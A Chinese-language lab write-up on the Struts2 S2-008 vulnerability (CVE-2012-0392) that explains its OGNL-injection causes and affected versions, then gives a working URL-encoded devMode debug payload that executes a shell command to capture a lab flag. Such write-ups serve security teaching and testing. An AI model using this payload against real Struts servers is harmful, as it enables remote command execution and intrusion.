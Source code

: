 # Struts2-008（CVE-2012-0392）

## 漏洞概述

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

## 漏洞成因：

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行
第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是java的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋
第三种需要开启 devModedebug 模式

例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

影响版本：Struts 2.1.0 - Struts 2.3.1

启动靶场。

![1](.\1.png)

利用 POC 拿到 Flag

`/devmode.action?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ls%27%29.getInputStream%28%29%29%29`

![2](./2.png)
